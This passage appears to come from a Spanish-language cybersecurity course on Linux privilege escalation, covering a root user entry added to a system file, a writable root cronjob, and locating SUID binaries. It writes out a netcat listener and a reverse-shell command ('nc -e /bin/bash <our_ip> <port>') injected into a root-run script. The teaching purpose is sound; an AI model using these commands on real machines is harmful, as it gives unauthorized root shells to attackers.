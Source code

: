 1. Crear hash de contraseña:

![NoSQL12](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/NoSQL12.png?raw=true)

2. Crea una entrada y colócala en el archivo:

![NoSQL13](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/NoSQL13.png?raw=true)

3. Simplemente inicie sesión en el usuario ch con privilegios de root. La contraseña es pass123.

## Procesos que se ejecutan automáticamente

Los cronjobs son procesos que el sistema ejecuta automáticamente con una cierta periodicidad. A veces, estos ejecutan un determinado archivo bash como root y también ejecutan un determinado conjunto de comandos como root. Si identificamos un cronjob que ejecuta un archivo que también podemos escribir… Verás hacia dónde va esto.

Para ver qué cronjobs se están ejecutando, simplemente ejecute el comando cat/etc/crontab. Si esto no devuelve nada útil podemos ejecutar un programa llamado pspy64 ([https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)) que nos muestra todos los procesos en ejecución en el sistema.

En este ejemplo, encontramos que cierto archivo (cleanall.sh) se ejecuta como root y podemos escribir en él. Así que intentamos que ejecute un shell inverso de netcat en nuestra máquina y, si la conexión es exitosa, obtenemos acceso root a la máquina.

- En nuestra máquina iniciamos un oyente netcat:

```bash
nc -lnvp <port>
```

- En nuestro objetivo colocamos en el archivo anterior una conexión con nuestro oyente:

```bash
echo "nc -e /bin/bash <our_ip> <port> > cleanall.sh.
```
> Cuando esto se ejecuta, tenemos nuestro shell raíz.

### Abusar de SUID/GUID

Esto es un poco más complicado, por lo que hay algunos conceptos teóricos de los que se debe hablar. Todo en Linux es un archivo con permisos.

![NoSQL14](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/NoSQL14-es.png?raw=true)

Este archivo tiene todos los permisos y podemos configurarlo con el comando chmod 777. Te preguntarás por qué 777, bueno, se trata de bits. Si piensa en estos permisos como bits 7, es la combinación de 4 (lectura), 2 (escritura) y 1 (ejecución). Entonces chmod 600 corresponde a rw -— — y chmod 764 corresponde a rwx-rw-r. Un SUID es un tipo de permiso de usuario que permite a los usuarios ejecutar un archivo con los permisos de un usuario específico. Aquellos archivos que tienen permisos SUID se ejecutan con privilegios más altos.

Bueno, ahora, ¿cómo los encontramos? Bueno, usando el siguiente comando. find / -perm -u=s -type f 2>/dev/null
